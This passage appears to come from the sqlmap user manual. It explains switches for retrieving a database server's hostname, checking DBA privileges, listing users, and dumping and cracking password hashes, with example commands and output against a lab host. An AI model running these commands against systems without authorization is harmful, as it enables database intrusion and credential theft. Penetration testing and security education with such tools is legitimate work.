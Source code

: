 With this switch it is possible to retrieve the database management system's hostname.

Example against a MySQL target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
hostname

[...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```

### Detect whether or not the session user is a database administrator

Switch: `--is-dba`

It is possible to detect if the current database management system session user is a database administrator, also known as DBA. sqlmap will return `True` if it is, vice versa `False`. 

### List database management system users

Switch: `--users`

When the session user has read access to the system table containing information about the DBMS users, it is possible to enumerate the list of users. 

### List and crack database management system users password hashes

Switch: `--passwords`

When the session user has read access to the system table containing information about the DBMS users' passwords, it is possible to enumerate the password hashes for each database management system user. sqlmap will first enumerate the users, then the different password hashes for each of them. 

Example against a PostgreSQL target:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
passwords -v 1

[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt] 
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
```
